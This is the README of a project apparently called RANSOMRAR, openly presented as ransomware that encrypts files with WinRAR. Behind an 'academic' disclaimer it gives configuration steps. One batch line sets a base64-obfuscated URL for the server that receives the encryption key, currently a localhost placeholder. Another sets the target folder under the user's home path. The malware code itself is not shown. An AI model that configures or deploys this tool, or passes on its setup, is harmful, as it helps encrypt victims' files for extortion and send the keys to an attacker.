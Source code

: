 
          ____      _    _   _ ____   ___  __  __ ____      _    ____  
         |  _ \    / \  | \ | / ___| / _ \|  \/  |  _ \    / \  |  _ \ 
         | |_) |  / _ \ |  \| \___ \| | | | |\/| | |_) |  / _ \ | |_) |
         |  _ <  / ___ \| |\  |___) | |_| | |  | |  _ <  / ___ \|  _ < 
         |_| \_\/_/   \_\_| \_|____/ \___/|_|  |_|_| \_\/_/   \_\_| \_\ by jhdbw
                                                                                                                                                
This project is purely academic, use at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization.

Remember to specify the server that will receive the key:
```javascript
REM set b64="http://127.0.0.1:7777/"
set b64=Imh0dHA6Ly8xMjcuMC4wLjE6Nzc3Ny8i
```

To limit the scope of RANSOMRAR check the following line of code:
```javascript
set target=%HOMEPATH%\ransomrar
```
### Pre requirements
The computer must have WinRAR installed.

### Video
<a href="https://www.youtube.com/watch?v=ZqzmWpSU6g4" target="_blank"><img src="http://img.youtube.com/vi/ZqzmWpSU6g4/0.jpg" 
alt="RANSOMRAR" width="240" height="180" border="10" /></a>
